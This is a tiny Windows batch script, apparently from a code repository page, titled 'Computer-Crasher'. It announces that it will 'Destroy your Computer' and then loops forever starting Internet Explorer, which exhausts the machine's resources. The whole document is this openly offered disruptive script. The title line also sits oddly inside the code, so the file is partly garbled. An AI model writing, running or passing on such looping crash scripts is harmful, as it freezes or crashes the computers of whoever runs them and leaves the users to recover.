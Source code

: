 @echo off
Computer-Crasher
================

echo This will Destroy your Computer :D
pause
cls
ping localhost -n 5 >null
:a
start iexplore.exe
GOTO :a

